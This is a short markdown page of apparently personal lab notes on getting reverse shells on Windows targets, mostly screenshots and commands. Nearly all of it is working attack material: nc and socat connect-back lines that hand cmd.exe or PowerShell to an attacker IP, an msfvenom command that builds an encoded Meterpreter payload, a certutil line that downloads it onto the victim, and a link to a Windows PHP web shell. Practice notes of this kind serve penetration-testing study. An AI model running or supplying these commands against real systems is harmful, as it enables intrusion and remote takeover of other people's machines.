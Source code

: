 1. rlwrap 

```bash
# Listener
rlwrap nc -lvnp 4444

# Connect Back
nc 10.10.228.112 4444 -e "cmd.exe"
```

<img width="1843" height="731" alt="image" src="https://github.com/user-attachments/assets/7523f5a9-2811-48cc-8bcc-7ac3c0974db9" />

1. Socat

```bash
# Listener
socat TCP-L:<port> FILE:`tty`,raw,echo=0

# Connect back
socat TCP:<attacker-ip>:<port> EXEC:powershell.exe,pipes
```

1. **Msfvenom**

**Reverse_shell**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.148.61 LPORT=4444 -f exe -e x64/xor -i 10 -o shell_encoded.exe
```

Open an HTTP server on your machine, then download it from the victim machine using`certutil` tool

```bash
certutil -urlcache -split -f http://10.10.148.61:8888/shell_encoded.exe Downloads/shell_encoded.exe
```

<img width="1897" height="759" alt="image" src="https://github.com/user-attachments/assets/bac2136c-255c-43be-a0f8-86ced6a6175f" />

Launch msfconsole, use `exploit/multi/handler`. Set the required options, then start the handler 

<img width="1893" height="812" alt="image" src="https://github.com/user-attachments/assets/9363daee-d908-4ec1-9b25-49b1b64bc9e4" />

### Webshell

First, I tried to upload the php-reverse-shell.php file I used for Linux web server, but it returned this error: 

<img width="1894" height="661" alt="image" src="https://github.com/user-attachments/assets/50d9f725-e88b-47d4-b8cd-f7c3b6a9bc79" />

The script assumes a **Linux environment** (hence **`daemon`** errors). Windows lacks POSIX functions (**`pcntl_fork()`**), and the shell briefly worked but was likely killed by security tools. To fix this, u**se a Windows-compatible PHP Reverse Shell.** 

https://github.com/Dhayalanb/windows-php-reverse-shell.git

<img width="1737" height="787" alt="image" src="https://github.com/user-attachments/assets/eca82661-9ade-42f1-aeac-37decb90385d" />
